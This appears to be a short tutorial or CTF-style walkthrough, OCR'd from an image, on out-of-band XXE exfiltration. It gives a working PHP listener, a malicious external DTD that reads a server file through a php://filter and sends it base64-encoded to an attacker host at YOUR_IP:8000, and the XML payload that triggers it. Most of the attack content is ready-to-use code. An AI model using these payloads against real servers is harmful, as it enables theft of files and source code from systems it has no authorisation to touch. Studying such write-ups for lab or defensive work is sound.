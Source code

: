 This is called **Out-Of-Band (OOB) Exfiltration**, because the server doesn’t show you the file — it sends the data to **your own server** instead.

## Steps

### 1.  Host a PHP listener
You create a simple PHP file on your own machine:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
```
Save this as `index.php`

Then run a server:
```php
php -S 0.0.0.0:8000
```
This listens for incoming requests and prints out anything in `?content=...` (after decoding).

### 2. Write a Malicious DTD (hosted on your machine)
Create a file called `xxe.dtd`:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://YOUR_IP:8000/?content=%file;'>">
```
This tells the victim server:
- Read the target file
- Base64 encode it
- Then request `http://YOUR_IP:8000/?content=ENCODED_TEXT`
### 3. Send the XXE Payload

Send this XML to the  endpoint:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://YOUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

The server will:

    Load your DTD
    Read the target file
    Send its base64-encoded content to your machine